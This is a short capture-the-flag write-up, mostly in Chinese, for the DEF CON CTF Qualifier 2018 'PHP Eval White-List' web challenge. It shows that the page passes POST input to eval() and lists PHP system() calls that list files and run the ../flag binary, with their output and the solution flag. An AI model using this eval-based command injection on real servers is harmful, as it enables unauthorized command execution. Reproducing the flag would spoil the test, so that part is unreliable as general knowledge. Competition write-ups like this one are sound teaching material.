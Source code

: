 # DEF CON CTF Qualifier 2018 - Notes

## PHP Eval White-List
> Description:
>
> PHP was dangerous, so we've fixed it!
>
> http://c67f8ffd.quals2018.oooverflow.io
> 
> Files:websec_eval_wl.so

打開頁面
![image](img/aWe5jpn.png)

他提供了 source code => source.txt 和 custom php extension => websec_eval_wl.so

然後看他 source code 有一行是 `eval($_POST['d']);`

可以看到這打開頁面那邊有一個 run ，上面有一個範例是 `printf(1+1);`

可以在那邊輸入指令，然後最底下有一個提示說 `Can you execute the ./flag binary?`

測試
```
system('ls -al');

# total 180 drwxr-xr-x 3 root root 4096 May 12 18:10 . drwxr-xr-x 3 root root 4096 May 11 16:29 .. -rw-r--r-- 1 root root 108376 May 5 04:58 bootstrap.min.css -rw-r--r-- 1 root root 1672 May 12 18:09 index.php -rw-r--r-- 1 root root 155 May 5 04:58 source.php -rw-r--r-- 1 root root 1672 May 12 18:09 source.txt d-wx-wx-wx 2 root root 16384 May 14 12:40 tmp -rw-r--r-- 1 root root 33784 May 5 04:58 websec_eval_wl.so

===
system('file flag');

# flag: cannot open `flag' (No such file or directory)
===
system('file ./../flag');

# ./../flag: executable, regular file, no read permission
===

system('./../flag'); 
## 印出 flag 
## OOO{Fortunately_php_has_some_rock_solid_defense_in_depth_mecanisms,_so-everything_is_fine.}
```
